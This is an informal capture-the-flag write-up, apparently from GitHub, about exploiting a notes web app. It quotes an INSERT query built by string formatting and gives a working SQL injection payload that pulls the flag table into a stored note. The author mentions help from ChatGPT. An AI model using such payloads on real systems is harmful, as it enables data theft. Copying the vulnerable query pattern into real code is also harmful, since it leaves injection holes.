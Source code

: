 amazing login screen =)
![image](https://github.com/user-attachments/assets/be44f04d-ce13-4da5-b37b-0e2cfc570424)

The code does start of by creating 3 tables which one contains the flags, there are also no other users being created  so i guess no point hitting admin ?

![image](https://github.com/user-attachments/assets/3cae52a7-aeae-4dfc-a332-cbc63fc35173)


this is the sql function that inserts the note written in the data base.
Choosing this as the focus point as it seems the most exposed
```
query = db.insert("INSERT INTO notes(username, notes) VALUES(?,'%s')" % note, session['username'])
```


```
select* from flag'),('ayane','flag
```

this query works..
but the reflected results are :

> select* from flag
> 
> flag


After some modifications and meaninful discussions with chat gpt, the payload was born
```
fauna'),(('ayane',(select * from flag)),('ayane','onichan
```

AND THERE WE GO 

![image](https://github.com/user-attachments/assets/3ddfe550-42fd-4313-af15-88ffeb5b77d7)


![image](https://github.com/user-attachments/assets/fe4f4e25-fa74-4886-9bd8-655f6e5adfb7)

